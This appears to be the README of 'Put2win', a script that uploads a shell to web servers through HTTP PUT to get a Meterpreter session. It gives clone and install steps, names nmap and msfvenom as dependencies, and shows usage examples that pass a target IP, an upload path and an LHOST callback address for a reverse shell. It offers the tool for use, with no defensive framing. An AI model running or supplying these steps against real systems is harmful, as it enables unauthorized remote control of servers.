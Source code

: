 # Put2win
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

Script to automatize shell upload by PUT HTTP method to get meterpreter

[![asciicast](https://asciinema.org/a/204195.png)](https://asciinema.org/a/204195)

# Dependencies
It's necessary to have installed nmap and msfvenom tools for a correct operation

# Installation
```
git clone https://github.com/sysdevploit/put2win
cd put2win
chmod +x put2win.sh
```

# Usage
```
This script automatize shell upload by PUT HTTP method to get meterpreter.

Usage:
 ./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST

Examples:
 - ./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10
 - ./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
